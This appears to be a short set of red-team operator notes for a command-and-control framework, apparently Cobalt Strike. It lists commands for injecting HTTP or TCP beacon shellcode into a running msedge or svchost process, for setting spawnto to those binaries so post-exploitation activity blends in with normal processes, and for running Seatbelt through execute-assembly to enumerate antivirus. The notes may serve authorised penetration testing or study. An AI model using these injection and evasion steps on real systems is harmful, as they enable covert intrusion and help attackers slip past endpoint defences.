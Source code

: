 
> Default post-ex commands will be ran by `svchost.exe` after malleable C2 configs

For any outbound connection commands find an msedge or chrome ppid change the spawnto to msedge.exe or chrome.exe


#### HTTP

Find msedge process and inject shell code into it via GUI

```powershell
inject 6424 x64 http
spawnto x64 'C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe'
powerpick command
```

#### TCP-Local (enum)

Find svchost.exe  process and inject TCP shell code into it via GUI
```powershell
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus
```

